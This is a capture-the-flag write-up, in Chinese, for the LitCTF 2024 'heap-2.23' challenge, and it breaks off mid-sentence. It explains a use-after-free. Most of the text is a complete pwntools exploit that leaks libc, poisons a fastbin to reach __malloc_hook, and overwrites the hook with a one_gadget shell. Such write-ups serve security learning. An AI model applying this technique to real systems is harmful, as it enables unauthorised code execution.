




# [LitCTF 2024]heap-2.23

刚开始先检查保护



发现只有一个canary和一个nx保护

所以先用ida反编译一下





发现有着一个uaf漏洞，并且发现这里是用2.23的版本



因此我们的思路是使用uaf泄露libc并且发现有一个libc的原件因此我们可以使用one_gadget同时我们也要泄露mallo_hook因此我们的exp：

```py
from pwn import *
# from LibcSearcher import *
import itertools
import ctypes

context(os='linux', arch='amd64', log_level='debug')

is_debug = 0
IP = "node4.anna.nssctf.cn"
PORT = 28268

elf = context.binary = ELF('/home/fofa/heap-2.23/heap')
libc = elf.libc

# def connect():
#     return remote(IP, PORT) if not is_debug else process()

g = lambda x: gdb.attach(x)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x=None: p.recv() if x is None else p.recv(x)
rl = lambda: p.recvline()
ru = lambda x: p.recvuntil(x)
r_leak_libc_64 = lambda: u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
r_leak_libc_32 = lambda: u32(p.recvuntil(b'\xf7')[-4:])

p = process("/home/fofa/heap-2.23/heap")


def add(idx,size):
    sla(">>",str(1))
    sla("idx?",str(idx))
    sla("size?",str(size))


def show(idx):
    sla(">>",str(3))
    sla("idx?",str(idx))


def delete(idx):
    sla(">>",str(2))
    sla("idx?",str(idx))


def edit(idx,content):
    sla(">>",str(4))
    sla("idx?",str(idx))
    sa("content :",content)


add(0,0x98)
add(1,0x98)
delete(0)
show(0)

ru("content : ")
leak = u64(r(6).ljust(8,b'\x00'))
libc_base = leak - (0x74afcefc4b78 - 0x74afcec00000)
success(f"libc_base ->{hex(libc_base)}")

# 0x45226 execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   rax == NULL

# 0x4527a execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL

# 0xf03a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL

# 0xf1247 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL

malloc_hook = libc_base + libc.sym['__malloc_hook']
one_gadget = libc_base + 0xf1247

add(2,0x68)
add(3,0x68)
add(4,0x68)

# pause()
delete(2)
delete(3)
#修改2块中的fd指针
edit(2,p64(malloc_hook - 0x23))


add(5,0x68)
add(6,0x68)
add(7,0x68)#申请出fd指向的malloc_hook


# success(hex(malloc_hook))
# success(hex(malloc_hook - 0x23))
# success(hex(one_gadget))
gdb.attach(p)
edit(7,b"a" * 0x13 + p64(one_gadget))

add(9,0x20)


# g(p)


p.interactive()
```

---

总结

malloc_hook要